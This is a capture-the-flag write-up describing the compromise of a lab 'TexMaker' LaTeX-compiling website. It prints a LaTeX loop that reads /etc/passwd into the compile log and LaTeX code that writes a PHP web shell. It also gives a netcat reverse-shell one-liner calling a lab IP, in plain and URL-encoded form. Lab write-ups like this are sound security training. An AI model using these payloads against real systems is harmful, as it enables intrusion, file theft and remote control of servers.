 # LaxCTF

"Try Harder!"

This one was tough, but fun. I learnt a lot more than I would like about latex.

First, only 22 and 80 are open. 80 reveals a 'TexMaker' website, where you can enter LaTeX script and have it compiled into a PDF for you.

I immediately investigated reading files into the output (LFI) and executing shell commands through LaTeX. 

> The docs, by the way, for LaTeX are truly hideous - how has it survived and thrived for so long with such shit documentation?

I found this blog: https://0day.work/hacking-with-latex/. It shows several LaTeX abuse techniques, and over the next six hours or so I experimented with them:

- First, shell execution is right out (as far as I can tell). The common commands `immediate`, `write18` or `input|` were all blocked. Even the `\def` trick the blog specifies at the end didn't result in any code execution, so I assumed all shell escapes were turned off (later confirmed).

- Second, I could read files anywhere. I read `\etc\passwd` but it failed, likely due to latex interpreting `_` as a command character and the system having at least one user like `_apt`; I could do partial extraction via not looping but just going line by line, however I eventually found a better technique: rather than using `\text` to emit the line to the generated PDF, if I used `\typeout` I could write to the compile log which is printed on the page:

    ```
    \newread\file
    \openin\file=/etc/passwd
    \loop\unless\ifeof\file
        \read\file to\fileline 
        \typeout{\fileline}
    \repeat
    \closein\file
    ```

- Third, writing anywhere didn't work. I could write files with no path, so local, but I didn't know where that directory was and so couldn't emit a shell or anything.

With no shell commands, I figured my best bet was going to be adding some PHP to the website somewhere. I knew it was PHP because `dirb` revealed a 200 code for `config.php` (it also revealed a few listable directories, like where the pdf's go).

Using my `typeout` technique, I was able to fully read `/etc/passwd` and found an entry for `/home/king`. Guessing the user flag would be `user.txt`, I successfully read it using the same technique.

At this point, my chief focus was finding where the web directory was. I tried lots of things, even trying to guess various `/var/www/` paths, to no avail. Finally, via this blog https://highon.coffee/blog/lfi-cheat-sheet/, I found out about `/proc/self/environ`. Reading that partially failed, but I got enough of the content to reveal the `OLDPWD` of the current user was `/var/www/html/Latex`. Boom!

Reading `config.php` revealed the existence of a `/compile` path. I had tried writing files to `/pdf` and `/assets` but they hadn't worked. Writing a `.php` to `/var/www/html/Latest/compile/test.php` did work though, and I was able to browse to it! I promptly used the following to create a simple PHP web shell:

    \newwrite\outfile
    \openout\outfile=shell.php
    \write\outfile{<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>}
    \closeout\outfile

    some random text to ensure pdf is created

Going to `/compile/shell.php?cmd=whoami` got that magic `www-data`. To get a reverse shell I used this script:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.178.75 4444 >/tmp/f

Though since it had to be in the query string, I first encoded it to url with Burp:

    %72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%37%38%2e%37%35%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66

Once on the machine, I tried `sudo -l` and `find / -user root -perm -u=s` without success. I checked out that suspicious entry from the bottom of `/etc/passwd`: `/opt/secret`, and found a file readable and executable by everyone that looked to be (via its first line) a aes/cbc/128 encoded file. I've saved it here as [laxctf.secret](./laxctf.secret).